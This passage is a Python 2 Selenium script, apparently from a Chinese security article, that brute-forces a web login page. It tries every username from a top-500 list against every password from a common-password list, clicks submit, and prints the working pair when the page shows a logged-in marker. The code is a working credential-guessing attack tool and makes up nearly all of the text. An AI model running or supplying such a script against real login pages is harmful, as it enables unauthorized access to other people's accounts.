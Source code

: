 ```bash
        elem=browser.find_element_by_id("submit")
        #print browser.current_window_handle
        elem.click()

        time.sleep(1)
        if '当前用户' in browser.page_source:

            print 'Login Success:' + user + '|' + pwd
            sys.exit()
        else:
            print 'LoginFaild!'


browser = webdriver.Chrome()


def main():

    with open('usernameTop500.txt','r') as fuser:
            for user in fuser.readlines():
                    u = user.strip()
                    with open('topwdglobal.txt','r') as fpwd:
                        for pwd in fpwd.readlines():
                                p = pwd.strip()
                                print 'testing...' + u,p
                                BruteLogin(u,p)

    browser.quit()



if __name__ == '__main__':
    main()
```

[![](assets/1698897578-37472e095b6d364eb4bf79f40e437a11.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20200206160621-8faa03e0-48b7-1.gif)
